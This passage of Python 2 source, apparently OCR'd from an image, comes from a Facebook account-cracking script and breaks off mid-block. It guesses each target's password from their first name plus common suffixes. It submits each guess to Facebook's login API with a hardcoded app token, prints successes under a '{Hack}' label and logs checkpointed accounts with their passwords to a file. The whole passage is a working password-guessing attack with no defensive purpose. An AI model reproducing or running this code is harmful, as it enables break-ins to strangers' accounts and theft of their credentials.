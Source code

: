 						else:
							pass3 = (j['first_name']+'123')
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = (j['first_name']+'khan')
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = (j['first_name']+'12345')
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = (j['first_name']+'786')
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass6